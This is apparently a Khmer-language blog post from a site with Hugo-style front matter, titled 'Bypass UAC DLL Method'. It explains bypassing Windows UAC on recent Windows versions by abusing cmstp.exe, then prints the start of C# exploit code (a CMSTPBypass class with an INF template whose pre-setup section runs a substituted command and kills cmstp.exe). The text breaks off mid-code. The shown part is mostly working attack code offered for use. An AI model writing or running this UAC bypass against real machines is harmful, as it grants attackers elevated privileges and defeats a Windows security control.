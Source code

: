 ```yaml
---
title: "Bypass UAC DLL Method"
date: 2022-12-03T02:00:06+07:00
description: បង្កើតស្គ្រីប powershell ដើម្បី Bypass UAC ជាមួយឯកសារ DLL
draft: false
hideToc: false
enableToc: false
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- dll
- bypass
categories:
- UAC
series:
- WinExE
image: images/feature2/article-1.png
---
```


ដើម្បីធ្វើការ Bypass ទៅលើ UAC នៅរាល់ប្រព័ន្ធប្រតិបត្តិការវីនដូជំនាន់ថ្មី (៨/១០/១១) យើងអាចប្រើប្រាស់ឯកសារ PS1 ដើម្បីបង្កើតចេញជា [dll reflection](https://github.com/stephenfewer/ReflectiveDLLInjection) ដែលអាច Exploit តាមរយៈឯកសារដើម cmstp.exe នៃប្រព័ន្ធគោលពីរ។


#### C# DLL Reflection Code

{{< highlight csharp "linenos=table" >}}
/* 
UAC Bypass using CMSTP.exe microsoft binary.
Code author: Andre Marques (@_zc00l)
*/
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Windows;
using System.Runtime.InteropServices;

public class CMSTPBypass
{
    // Our .INF file data!
    public static string InfData = @"[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection

[RunPreSetupCommandsSection]
; Commands Here will be run Before Setup Begins to install
REPLACE_COMMAND_LINE
taskkill /IM cmstp.exe /F

